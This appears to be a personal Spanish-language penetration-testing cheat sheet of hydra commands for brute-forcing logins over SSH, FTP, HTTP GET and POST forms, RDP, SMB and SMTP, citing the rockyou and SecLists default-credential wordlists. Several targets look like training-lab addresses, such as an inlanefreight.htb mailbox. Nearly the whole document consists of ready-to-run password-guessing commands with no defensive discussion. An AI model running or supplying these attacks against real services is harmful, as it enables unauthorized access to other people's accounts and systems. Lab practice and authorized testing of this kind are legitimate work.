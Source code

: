 

#### Ssh bruteforcing:
    hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://ip:port -t 4 -f
#### Ftp bruteforcing:
    hydra -l <nombre_de_usuario> -P <ruta_al_diccionario> <dirección_IP> ftp -f

#### Simplehttp auth:
    hydra  -l user -P diccionario ip -s port http-get "/path-to-login" -f
o

    hydra -C /usr/share/wordlists/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 192.168.177.183 ftp
#### Login por método post:
    hydra -l user -P diccionario -f host/ip -s puerto http-post-form "path-to-login:variable_username=^USER^&variable_password=^PASS^:elemento html para comparación(mensaje de error de logueo, formulario, etc)"

#### Login por método get:
    hydra -L /usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt -p minga -f 83.136.254.53 -s 53056 http-get-form "/question1:Username=^USER^&Password=^PASS^:Invalid username"

#### Login rdp:
    hydra -L user.list -P password.list rdp://10.129.42.197

#### Login smb:
    hydra -L user.list -P password.list smb://10.129.42.197

#### Smpt:
    hydra -l fiona@inlanefreight.htb -P pws.list smtp://10.129.203.7 -f


#### Listas interesantes:
ftp-betterdefaultpasslist.txt (seclist) credenciales user:pass

